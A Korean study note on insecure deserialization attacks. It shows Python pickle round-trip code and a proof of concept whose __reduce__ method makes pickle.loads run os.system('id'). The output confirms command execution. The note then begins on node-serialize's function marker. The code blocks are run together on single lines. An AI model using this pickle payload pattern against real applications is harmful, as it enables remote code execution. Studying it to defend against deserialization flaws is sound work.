 
  * **해킹방법**

    -> 역직렬화 과정에서 어플리케이션 상에서 다른 행위를 발생시키는 상태 또는 타입을 이용하여 악의적인 행위를 발생시킴

    * 직렬화/역직렬화 예시 코드

    ```js
    import pickleclass TestClass:  def __init__(self, a, b):    self.A = a    self.B = b
    //TestClass 생성, ClassA로 할당ClassA = TestClass(31337,10001)
    // ClassA 직렬화ClassA_dump = pickle.dumps(ClassA)print(ClassA_dump)# ClassA 역직렬화, ClassB로 할당ClassB = pickle.loads(ClassA_dump)print(ClassB.A, ClassB.B)
    ```

    - 실행 결과

    ```js
    $ python3 pickleTest.py b"\x80\x03cmain\nTestClass\nq\x00)\x81q\x01}q\x02(X\x01\x00\x00\x00Aq\x03MizX\x01\x00\x00\x00Bq\x04M\x11'ub."31337 10001
    ```

    ex)

    1. **python**

       ->`__reduce__` 메소드를 공격에 사용

    - Python deserialize 취약점 예시 코드

    ```js
    import pickleimport osclass TestClass:  def __reduce__(self):  	return os.system, ("id", )ClassA = TestClass()
    // ClassA 직렬화ClassA_dump = pickle.dumps(ClassA)print(ClassA_dump)# 역직렬화pickle.loads(ClassA_dump)
    ```

    - 실행 결과

    ```js
    $ python3 pickleExploit.pyb'\x80\x03cposix\nsystem\nq\x00X\x02\x00\x00\x00idq\x01\x85q\x02Rq\x03.'uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
    ```

     

    2. **JS(Node.js)**

       NodeJS의 대표적인 직렬화/역직렬화 모듈은 **node-serialize**가 있습니다.

       - serialize 예시 코드

       ```js
       var serialize = require('node-serialize');x = {	test : function(){ return 'Hello'; }};console.log(serialize.serialize(x));
       /*{"test":"_$$ND_FUNC$$_function(){ return 'Hello'; }"}*/
       ```

       함수를 포함하는 object를 직렬화 하면 위와 같은 결과가 나옵니다.
       **node-serialize 모듈의 직렬화된 포맷에서** `_$$ND_FUNC$$_`**은 함수를 의미**

       
